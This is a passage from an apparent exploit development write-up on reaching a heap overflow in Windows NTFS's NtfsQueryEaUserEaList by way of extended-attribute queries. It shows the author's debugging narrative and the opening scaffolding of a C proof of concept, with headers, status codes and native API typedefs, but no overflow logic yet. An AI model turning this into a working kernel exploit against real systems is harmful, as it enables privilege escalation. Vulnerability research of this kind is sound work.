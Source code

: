Now finally, compiling, setting a breakpoint, execution aaand ... nothing. Didn't hit `NtfsQueryEaUserEaList`. First I though it might have something to do with the `Flags` field, but this was not the case.
In hindsight again it was obvious, the vulnerable function has `EaList` in it's name and I hadn't set the `EaList` and `EaListLength` parameters:

```
    IN PVOID EaList OPTIONAL,
    IN ULONG EaListLength,
```

However I came only to that conclusion after reversing more (up the callstack), debugging and trial and error (`goto: reversing`) that I did miss that.

Eventually I was able to trigger the vulnerable function. So let's figure out how we are getting that overflow next. This was the source code of the PoC at that time:

```c
#include <windows.h>
#include <stdio.h>
#include <ntstatus.h>
#include <winternl.h>

// Ressources:
// https://securelist.com/puzzlemaker-chrome-zero-day-exploit-chain/102771/
// https://hex.pp.ua/extended-attributes.php
// https://github.com/uvbs/obfuscation-crypto-repo/blob/master/Krypton_7.1/Bin/SYS/ntundoc.h
// http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FFile%2FFILE_GET_EA_INFORMATION.html
// 

#define STATUS_INVALID_EA_NAME           ((NTSTATUS)0x80000013L)
#define STATUS_EA_LIST_INCONSISTENT      ((NTSTATUS)0x80000014L)
#define STATUS_EA_TOO_LARGE              ((NTSTATUS)0xC0000050L)
#define STATUS_EAS_NOT_SUPPORTED         ((NTSTATUS)0xC000004FL)
#define STATUS_EA_CORRUPT_ERROR          ((NTSTATUS)0xC0000053L)

#define MAX_EA_NAME_LEN 255


// Function prototypes for the Native API functions
typedef NTSTATUS(NTAPI* NtSetEaFile_t)(
    HANDLE FileHandle,
    PIO_STATUS_BLOCK IoStatusBlock,
    PVOID Buffer,
    ULONG Length
    );

typedef NTSTATUS(NTAPI* NtQueryEaFile_t)(
    HANDLE FileHandle,
    PIO_STATUS_BLOCK IoStatusBlock,
    PVOID Buffer,
    ULONG Length,
    BOOLEAN ReturnSingleEntry,
    PVOID EaList,
    ULONG EaListLength,
    PULONG EaIndex,
    BOOLEAN RestartScan
    );

#define EA_NAME  "User.Comment321"
#define EA_NAME2 "User.Comment222"
#define EA_NAME_LENGTH (sizeof(EA_NAME) - 1)
#define EA_NAME_LENGTH2 (sizeof(EA_NAME2) - 1)


```